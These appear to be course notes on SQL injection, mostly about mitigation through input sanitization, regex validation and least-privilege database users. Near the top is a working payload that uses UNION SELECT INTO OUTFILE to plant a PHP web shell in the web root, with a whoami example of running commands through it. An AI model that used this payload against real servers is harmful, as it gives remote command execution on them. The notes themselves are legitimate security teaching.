 ```sql
'aa' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile
'/var/www/html/shell.php'-- 
```

- `0` is used as the URL parameter to pass commands
- `?0=whoami`

# Mitigating SQLi

Sanitization vs Validation

- Sanitization is ensuring input format doesn’t break it’s container
    - Escaping special characters, encoding tags and other dangerous characters
- Validation is ensuring input follows a predetermined rule
    - Numbers in phone number field, characters in name field, etc.

Input Sanitization

- `mysqli_real_escape_string()`
- MySQL function that escapes special characters
    - `pg_escape_string()` for PostgreSQL

```php
<SNIP>
$username = **mysqli_real_escape_string**($conn, $_POST['username']);
$password = **mysqli_real_escape_string**($conn, $_POST['password']);

$query = "SELECT * FROM logins WHERE username='". $username. "' AND password = '" . $password . "';" ;
<SNIP>
```

Input Validation

- Restricting accepted inputs to match what a field should take
- Often implemented with RegEx
    - `preg_match()`

```php
<SNIP>
$pattern = "/^[A-Za-z\s]+$/";
$code = $_GET["port_code"];

if(!preg_match($pattern, $code)) {
  die("</table></div><p style='font-size: 15px;'>Invalid input! Please try again.</p>");
}

$q = "Select * from ports where port_code ilike '%" . $code . "%'";
<SNIP>
```

User Privileges

- Superusers and users with administrative privileges should never be used with web applications
- Create new DB Users with `SELECT` privileges only
    - Grant access only to tables the DB user should read from
